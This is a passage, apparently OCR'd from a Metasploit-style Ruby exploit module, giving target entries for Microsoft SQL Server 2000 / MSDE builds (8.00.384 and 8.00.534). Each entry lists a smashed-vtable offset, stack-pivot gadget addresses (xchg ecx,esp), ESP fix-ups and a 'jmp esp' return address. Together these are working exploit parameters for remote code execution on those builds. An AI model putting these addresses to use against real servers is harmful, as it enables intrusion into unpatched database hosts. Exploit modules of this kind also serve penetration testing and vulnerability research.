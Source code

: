                   'Writable' => 0x42b6cfe0,  # any writable addr (not even necessary really)
                  'Vtable'   => 0x00a87f26,  # becomes eax for [eax+0x38] (must be valid to exec)
                  'FixDisp'  => 0x6900a7,    # not directly used - call [ecx+0x08]
                  'Disp'     => 0x08,        # displacement on call [ecx+disp] used
                  'ecx2esp'  => 0x0041b78f,  # xchg ecx,esp / sbb [eax],al / pop esi / ret
                  'Popped'   => 0x4,         # byte count popped in above (before ret)
                  'Offset'   => 0x28,        # offset to the new stack!
                  'FixESP'   => 0x0071f5fb,  # advance esp to next ret (add esp,0x20 / ret)
                  'Ret'      => 0x0041c9a2   # jmp esp
                },
              ],

              [
                # Microsoft SQL Server  2000 - 8.00.384 (Intel X86)
                # May 23 2001 00:02:52
                'MSSQL 2000 / MSDE SP1 (8.00.384)',
                {
                  'Num'      => 32,          # value for "start_offset"
                  'VtOff'    => -13,         # offset from 'Num' to smashed vtable ptr
                  'VtDisp'   => 0x38,        # displacement from call [eax+0x38] crash
                  'Writable' => 0x42b6cfe0,  # any writable addr (not even necessary really)
                  'Vtable'   => 0x00a95b2f,  # becomes eax for [eax+0x38] (must be valid to exec)
                  'FixDisp'  => 0x4b4f00,    # not directly used - call [ecx-0x18]
                  'Disp'     => 0x34,        # displacement on call [ecx+disp] used
                  'ecx2esp'  => 0x0044d300,  # xchg ecx,esp / add [eax],al / add [edi+0x5e],bl / pop ebx / pop ebp / ret
                  'Popped'   => 0x8,         # byte count popped in above (before ret)
                  'Offset'   => 0x28,        # offset to the new stack!
                  'FixESP'   => 0x004a2ce9,  # advance esp to next ret (add esp,0x1c / ret)
                  'Ret'      => 0x004caa15   # jmp esp
                },
              ],

              [
                # Microsoft SQL Server  2000 - 8.00.534 (Intel X86)
                # Nov 19 2001 13:23:50
                'MSSQL 2000 / MSDE SP2 (8.00.534)',
                {
                  'Num'      => 32,          # value for "start_offset"
                  'VtOff'    => -13,         # offset from 'Num' to smashed vtable ptr
                  'VtDisp'   => 0x38,        # displacement from call [eax+0x38] crash
                  'Writable' => 0x42b6cfe0,  # any writable addr (not even necessary really)
                  'Vtable'   => 0x00a64f7e,  # becomes eax for [eax+0x38] (must be valid to exec)
                  'FixDisp'  => 0x660077,    # not directly used - call [ecx-0x18]
                  'Disp'     => 0x34,        # displacement on call [ecx+disp] used
                  'ecx2esp'  => 0x0054131c,  # xchg ecx,esp / add [eax],al / add [edi+0x5e],bl / pop ebx / pop ebp / ret
                  'Popped'   => 0x8,         # byte count popped in above (before ret)
                  'Offset'   => 0x28,        # offset to the new stack!
                  'FixESP'   => 0x005306a0,  # advance esp to next ret (add esp,0x1c / ret)
                  'Ret'      => 0x004ca984   # jmp esp
                },
              ],

